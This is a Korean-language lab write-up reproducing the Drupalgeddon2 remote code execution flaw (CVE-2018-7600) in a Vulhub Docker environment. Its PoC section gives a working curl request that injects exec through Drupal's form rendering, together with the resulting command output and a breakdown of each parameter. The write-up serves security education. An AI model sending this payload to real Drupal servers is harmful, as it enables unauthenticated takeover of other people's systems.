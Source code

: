 # CVE-2018-7600 - Drupalgeddon2 Remote Code Execution

## 1. 개요

- **CVE 번호:** CVE-2018-7600
- **취약점 이름:** Drupalgeddon2
- **설명:**
Drupal의 폼 렌더링 시스템에서 발생하는 취약점으로, 인증되지 않은 공격자가 원격에서 임의의 명령어를 실행할 수 있는 RCE(Remote Code Execution) 취약점입니다. Drupal 7.x 및 8.x의 특정 버전에서 발견되었으며, 매우 치명적인 영향도를 갖습니다.

---

## 2. 실습 환경 구성

### 2.1 실습 환경 정보

- **가상 환경:** VirtualBox + Ubuntu 22.04
- **Docker 버전:** 26.1.3
- **Docker Compose:** 1.29.2

### 2.2 취약 환경 구성 절차

```
# Vulhub 저장소 Fork 및 Clone
cd ~
git clone https://github.com/Parkjoonhyeong/vulhub.git
cd vulhub/drupal/CVE-2018-7600

# docker-compose.yml 확인 및 수정 (MySQL 추가)
nano docker-compose.yml
```

`docker-compose.yml` 예시:

![1](https://github.com/user-attachments/assets/a71e2e57-cac7-480b-9236-bbead2b0930f)

```
# 환경 실행
sudo docker-compose up -d
```

![2](https://github.com/user-attachments/assets/d465d54f-49cb-4e4f-949f-d344d7f83049)


### 2.3 컨테이너 상태 확인

```
docker ps
```

정상 상태 예시:

![3](https://github.com/user-attachments/assets/59438a6d-3223-49fc-a669-1a5a9897cce1)


---

## 3. Drupal 설치

1. 브라우저 접속: `http://localhost:8080`
2. Drupal 설치 마법사 단계:
    - Language: English
    - Profile: Standard
    - Database:
        - **Database name:** drupal
        - **Username:** root
        - **Password:** root
        - **Host:** db
        - **Port:** 3306
    - 사이트 정보:
        - Site name: PoC Test Site
        - Admin ID/PW: root / root1234

설치 완료 후 관리자 페이지 진입 가능 상태 확인.

![4](https://github.com/user-attachments/assets/bb5b52e1-8995-4863-8d31-7f4bd3030658)


---

## 4. PoC 실행

### 4.1 공격 요청 (curl 사용)

```
curl -s -X POST "http://localhost:8080/user/register?element_parents=account/mail/%23value&ajax_form=1&_wrapper_format=drupal_ajax" \
-H "Content-Type: application/x-www-form-urlencoded" \
--data "form_id=user_register_form&_drupal_ajax=1&mail[#post_render][]=exec&mail[#type]=markup&mail[#markup]=id"
```

**이 요청은 Drupal의 `/user/register` 경로에 POST 요청을 보내며, 다음과 같은 방식으로 취약점을 트리거합니다:**

- **`ajax_form=1&_wrapper_format=drupal_ajax`** : Drupal의 Ajax 처리를 유도
- **`element_parents=account/mail/%23value`** : 폼 필드 경로를 지정하여 조작 위치 지정
- **`mail[#post_render][]=exec`** : **`post_render`** 함수로 PHP의 **`exec()`**를 지정
- **`mail[#markup]=id`** : 실행할 명령어로 리눅스의 **`id`** 명령 전달

즉, 폼 렌더링 과정에서 Drupal이 **`exec('id')`**를 실행하도록 만들어 **임의의 명령어 실행**을 유도합니다.

![5](https://github.com/user-attachments/assets/f5ecea2a-0a61-4ff0-8ba1-582be85eaa2a)


### 4.2 결과

```
[{"command":"insert","method":"replaceWith","selector":null,"data":"uid=33(www-data) gid=33(www-data) groups=33(www-data)..."}]
```

응답 JSON 데이터에서 **`data`** 항목에 명령어 실행 결과(**`id`** 출력 결과)가 포함되어 있으며,
이는 Drupal 웹 서버 컨테이너의 리눅스 사용자 정보입니다.

- **`uid=33(www-data)`** : 현재 실행 중인 웹 프로세스의 UID
- **`gid=33(www-data)`** : 그룹 ID 정보

**이는 서버 측 명령어가 실제로 실행되었고, 그 결과가 HTTP 응답에 포함되었음을 보여줍니다.**

> 응답 본문 내에 uid=33(www-data) 등의 리눅스 명령어 실행 결과가 포함되어 있음
> 

## 5. 결론

CVE-2018-7600, 일명 Drupalgeddon2로 불리는 이 취약점은 Drupal의 Ajax 기반 폼 렌더링 처리 과정에서 발생하는 치명적인 RCE(Remote Code Execution) 보안 취약점입니다. 이 취약점은 인증되지 않은 사용자가 단순한 폼 제출만으로 서버 내부의 명령어를 실행할 수 있게 하며, 공격자는 시스템 제어권 획득, 백도어 설치, 추가 공격 경로 확보 등 다양한 악용이 가능합니다.

본 실습에서는 Vulhub 프로젝트를 활용하여 Drupal 8.5.0 기반의 취약 환경을 Docker로 구축하였고, 해당 환경에서 취약한 경로(`/user/register`)로 조작된 Ajax 요청을 전송하여 명령어(`id`) 실행 결과를 확인하였습니다. 이 과정을 통해 다음과 같은 사실을 입증하였습니다:

- Drupal 설치 직후 기본 설정 상태에서도 본 취약점이 악용 가능함을 확인
- `curl`을 통해 간단한 PoC 공격 요청을 구성할 수 있으며,
- 응답 결과에서 실제 리눅스 명령어 실행 결과(`uid=33(www-data)` 등)를 확인하여 RCE 성공을 검증함

이번 실습을 통해 복잡한 리버스 엔지니어링 없이도 웹 취약점만으로 서버에 직접 명령어를 실행할 수 있는 보안 위협의 현실성과, 컨테이너 기반 실습 환경의 재현 가능성 및 교육적 가치를 체감할 수 있었습니다.
